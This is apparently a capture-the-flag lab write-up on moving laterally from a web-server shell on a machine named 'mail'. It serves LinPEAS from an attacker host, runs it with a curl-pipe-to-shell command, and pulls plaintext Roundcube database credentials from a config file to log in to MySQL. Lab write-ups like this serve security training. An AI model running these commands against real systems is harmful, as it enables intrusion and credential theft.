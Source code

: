 # Lateral Movement to jacob

## Local enumeration
- Found multiple (3) in `/home`
```bash
www-data@mail:/var/www/html/roundcube/public_html$ ls -la /home
total 32
drwxr-xr-x 1 root  root  4096 Jun  8 12:05 .
drwxr-xr-x 1 root  root  4096 Jul  9 12:41 ..
drwxr-x--- 1 jacob jacob 4096 Jun  7 13:55 jacob
drwxr-x--- 1 mel   mel   4096 Jun  8 12:06 mel
drwxr-x--- 1 tyler tyler 4096 Jun  8 13:28 tyler

www-data@mail:/var/www/html/roundcube/public_html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

- Next, ran [**LinPEAS**](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) for automated privilege escalation enumeration.

- On my attacker machine, started a simple HTTP server to serve linpeas.sh, **linpeas must be in directory**:
```bash
python3 -m http.server 8080 #Host
```
- On the target machine, I downloaded and executed linpeas.sh:
```bash
cd /dev/shm/
curl 10.10.14.112:8080/linpeas.sh | sh #Victim
```
**Found Interesting Info**
![](<./attachments/Outbound-6.png>)
- locate in ` /var/www/html/roundcube/config/config.inc.php`
```bash
cat  /var/www/html/roundcube/config/config.inc.php
```
 The password, the username and the database “roundcube” is plain as day in the config file.
## Lateral movement vector
```sql
mysql -u roundcube -pRCDBPass2025 roundcube
```